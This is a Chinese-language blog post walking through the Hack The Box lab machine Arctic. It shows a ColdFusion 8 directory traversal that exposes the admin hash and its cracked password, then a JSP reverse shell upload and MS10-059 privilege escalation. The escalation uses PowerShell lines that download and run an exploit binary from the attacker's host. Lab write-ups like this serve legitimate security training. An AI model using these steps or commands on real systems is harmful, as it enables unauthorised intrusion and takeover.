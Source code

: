 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aI3eI6UpreVZdhXvsFXzJQ)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **59** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/2ichQqW6XvPlgohk6kjVu8GYOQ2Oco557j1bibkVCOsbLrO28pO7Lws1oVXcvS90GtYFe9Va2cepbqXjuziaDrnibg/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/9

靶机难度：容易（2.5/10）

靶机发布日期：2017 年 10 月 16 日

靶机描述：

Arctic is fairly straightforward, however the load times on the web server pose a few challenges for exploitation. Basic troubleshooting is required to get the correct exploit functioning properly.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/70aCp38I3nX6dfnC3RPrQfDeuwyvRCkVZ5NrvqgrPsUd76ALjnYzdoWubzsdbaGpIBU9LdWWaN6eK2jaDkibicFA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaicHUKVLMp2vK1qtPdpGSbdiaMSAhshIKEfHM67EItzicnqSabTlmLh8MLGU5PVy3Lyc3cIPJE0Kjnw/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1RVNBhE6c0icDItsqh0RiaXqNZCt7NZt2Htia2puiaOFb6Mc4tP310CwFIA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.11，windows 系统的靶机..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1YJ8QKxGv0zWVvh2kNO5nsZBYcf8AiaAca7fXKfwFOxjeZszicYaQCYFA/640?wx_fmt=png)

nmap 发现开放了三个端口，8500 端口，可以在网上查到这是 ColdFusion Web 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY14ng1TycX9gyVdJU74aYMcL02oJyvFXibKqcvNYVRzFia2Jzhayy51P2Q/640?wx_fmt=png)

访问发现三个目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1fevtzVwFHnibS7fWeg9NUfqml4jkB1ePAX0PfB0E6CaqT2fMoiaAdN2g/640?wx_fmt=png)

我一个一个点进去，在 CFIDE 目录下存在 administrator 点开发现是个登陆页面...

果然是存在 ColdFusion Web 服务器的...ColdFusion 8...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1ctzq7XXI6TDlcLHLomt8REc4283dCpBTtwic2BYYTsKERObh0Uic1JMA/640?wx_fmt=png)

直接谷歌搜索 ColdFusion 8 EXP...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1ZmZXDaVZaJzzOHia21XeHybiaTfL7M5e1ta0MPVGfQibllHTozsH4yJQw/640?wx_fmt=png)

发现存在目录遍历的漏洞...

ColdFusion 8 还将管理员哈希值本地存储在名为 password.properties 的文件中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1e3znXDMZlIKP5a93icM8pw8yESic0hibZglEHGl2Ua1bAk8czgHMv972A/640?wx_fmt=png)

可以看到存在哈希值：

```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1wwt2JhdeUhdqw3ah1n4RZnZiaaVGbFIWxE5oGuH3MYc2eY1PicjFL57g/640?wx_fmt=png)

```
https://crackstation.net/
在页面破解哈希值：happyday
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1wwt2JhdeUhdqw3ah1n4RZnZiaaVGbFIWxE5oGuH3MYc2eY1PicjFL57g/640?wx_fmt=png)

成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaicHUKVLMp2vK1qtPdpGSbdiaMSAhshIKEfHM67EItzicnqSabTlmLh8MLGU5PVy3Lyc3cIPJE0Kjnw/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1y5PeicuN7YflviaDApn4mtricu7RibMkrxrKyhKG9YbW7gic40LQUOWWKuQ/640?wx_fmt=png)

找到可以上传反向 shell 地方...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1icfcaIN5o7NBlT8IjEdRauSTIzibw73aVmuWhEoMdpHKqp5cwd4LK5qQ/640?wx_fmt=png)

服务器对本地 kali 进行 80 端口下载 jsp 反向 shell.... 需要保存在 C:\ColdFusion8\wwwroot\CFIDE\dayushell.jsp 目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1vnWCPjusQVNFCLoa29gzOY3FRb8CTYPibfBzTE0eaWWBDXky7WryISw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1eqtzQc9zH2q8uqvO88L1YmCO6rLn8ocbskxs3bd57icArrrDE2tFibOw/640?wx_fmt=png)

上传成功....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY11JQ3k4wicjia7l0MrK623QKG6iapN6wK86enKHWYE1bkqnDwnQJjWXkZQ/640?wx_fmt=png)

成功获得反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY11tb4L1PgqNFcFGKIW5ByhFKw2AqbiaWgULbu2EaoAvCOOAsLiadsXwtA/640?wx_fmt=png)

又是一个什么补丁都没打的原生系统...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1EdJyggjHJt8V4vvvPhbz0HWN9ia3lDksXLwZeRK8o7fVclp81rZGoxA/640?wx_fmt=png)

先拿到 user.txt，继续进行下一步... 寻找 root

谷歌搜索    发现 MS10-059 可利用，但是没编译成 EXE 文件，在 github 上找到了 Chimichurri.exe.... 编译好的

```
[链接](https://github.com/Re4son/Chimichurri/blob/master/Chimichurri.exe)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY16bPxFbY1iaxA8XUgibhxbeeiaWzopl4GCucVhmMdOAibqhMMkxf9FfAdKg/640?wx_fmt=png)

```
php
echo $webclient = New-Object System.Net.WebClient >>dayushell.ps1
echo $url = "http://10.10.14.16/Chimichurri.exe" >>dayushell.ps1
echo $file = "exploit.exe" >>dayushell.ps1
echo $webclient.DownloadFile($url,$file) >>dayushell.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File dayushell.ps1
```

首先得开启 80 服务，然后本地得存在 Chimichurri.exe 文件，然后利用 powershell.exe 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1qTRWclEjmAIA34Y2XRLcsHXerref7Jvg9podEBLr4pUM0o281cLehw/640?wx_fmt=png)

成功获得 system 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMduqjFCfvVbjz7dRQgQKY1A6Xp8VP4j7MalsuqQhWKno0rzGzMOOFUgo1ibribcEskuyNgpgRsmlpA/640?wx_fmt=png)

成功获得 user.txt 和 root.txt.... 这里我介绍的方法是没利用 Metasploit 内核提权的....

针对别的漏洞，这里还可以利用

```
[MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)，[MS11-046](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046)
```

![](https://mmbiz.qpic.cn/mmbiz_png/2ichQqW6XvPlgohk6kjVu8GYOQ2Oco557j1bibkVCOsbLrO28pO7Lws1oVXcvS90GtYFe9Va2cepbqXjuziaDrnibg/640?wx_fmt=png)

当然如果利用 Metasploit 提权这台机子，几分钟就能获得 root.txt 了... 方法和我在 NO.55 中利用 suggester 去漏扫，发现可利用漏洞，然后生成 EXE 或者利用本地的，提权即可...

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/70aCp38I3nX6dfnC3RPrQfDeuwyvRCkVZ5NrvqgrPsUd76ALjnYzdoWubzsdbaGpIBU9LdWWaN6eK2jaDkibicFA/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

**2021.6.9~2021.6.16 号开启收徒模式，实战教学，有想法的私聊！**  

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)